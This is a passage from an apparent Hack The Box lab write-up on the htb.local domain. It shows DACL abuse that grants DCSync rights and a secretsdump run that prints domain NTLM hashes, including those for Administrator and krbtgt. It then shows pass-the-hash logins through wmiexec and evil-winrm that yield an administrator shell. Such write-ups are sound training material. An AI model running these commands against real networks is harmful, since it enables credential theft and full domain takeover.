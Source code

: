     [-] Memberof -> continue
    [-] Adding user SVC-ALFRESCO to group EXCHANGE WINDOWS PERMISSIONS@HTB.LOCAL
    [+] Added CN=svc-alfresco,OU=Service Accounts,DC=htb,DC=local as member to CN=Exchange Windows Permissions,OU=Microsoft Exchange Security Groups,DC=htb,DC=local
    [-] Re-binding to LDAP to refresh group memberships of SVC-ALFRESCO@HTB.LOCAL
    [+] Re-bind successful
    [-] Modifying domain DACL to give DCSync rights to SVC-ALFRESCO
    [+] Dacl modification successful
    [+] Finished running tasks
    [+] Saved restore state to aclpwn-20191019-215508.restore
    

### Dump Hashes

Now, I can run `secretsdump.py`:

    
    
    root@kali# secretsdump.py svc-alfresco:s3rvice@10.10.10.161
    Impacket v0.9.20 - Copyright 2019 SecureAuth Corporation
    
    [-] RemoteOperations failed: DCERPC Runtime Error: code: 0x5 - rpc_s_access_denied 
    [*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
    [*] Using the DRSUAPI method to get NTDS.DIT secrets
    htb.local\Administrator:500:aad3b435b51404eeaad3b435b51404ee:32693b11e6aa90eb43d32c72a07ceea6:::
    Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
    krbtgt:502:aad3b435b51404eeaad3b435b51404ee:819af826bb148e603acb0f33d17632f8:::
    DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
    ...[snip]...
    

### Shell

With the hashes for Administrator, I can connect with a tool like `wmiexec`:

    
    
    root@kali# wmiexec.py -hashes aad3b435b51404eeaad3b435b51404ee:32693b11e6aa90eb43d32c72a07ceea6 htb.local/administrator@10.10.10.161
    Impacket v0.9.19-dev - Copyright 2018 SecureAuth Corporation
    
    [*] SMBv3.0 dialect used
    [!] Launching semi-interactive shell - Careful what you execute
    [!] Press help for extra shell commands
    C:\>whoami
    htb\administrator
    

I could also continue with Evil-WinRM:

    
    
    root@kali# ruby /opt/evil-winrm/evil-winrm.rb -i 10.10.10.161 -u administrator -p aad3b435b51404eeaad3b435b51404ee:32693b11e6aa90eb43d32c72a07ceea6
    
    Info: Starting Evil-WinRM shell v1.7
    
    Info: Establishing connection to remote endpoint
    
    *Evil-WinRM* PS C:\Users\Administrator\Documents> whoami
    htb\administrator
    